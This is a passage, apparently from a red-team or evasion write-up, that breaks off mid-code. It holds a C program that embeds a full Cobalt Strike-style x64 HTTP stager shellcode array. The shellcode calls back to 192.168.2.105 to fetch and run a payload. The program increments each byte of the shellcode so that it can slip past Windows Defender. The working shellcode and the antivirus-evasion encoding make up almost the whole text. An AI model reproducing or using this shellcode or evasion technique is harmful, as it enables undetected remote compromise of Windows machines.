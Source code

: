 I assumed that simple byte-shifting may be enough to avoid detection by Defender, so I wrote this small C script to increment each char by one:

```c
#include <stdio.h>

int main() {
  // Original CS shellcode
  unsigned char array[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";

  // Copy/paste wrapper
  printf("\nunsigned char array[] = \"");

  // Iterate over each byte in the array
  for(short i = 0; i < sizeof(array); i++) {
    short current = array[i];

    // Increment by 1 or roll over to stay within eight bits
    if(current < 255) {
      current += 1;
    } else {
      current = 0;
    }

    // Write to STDOUT
    printf("\\x%x", current);
  }

  // Copy/paste wrapper
```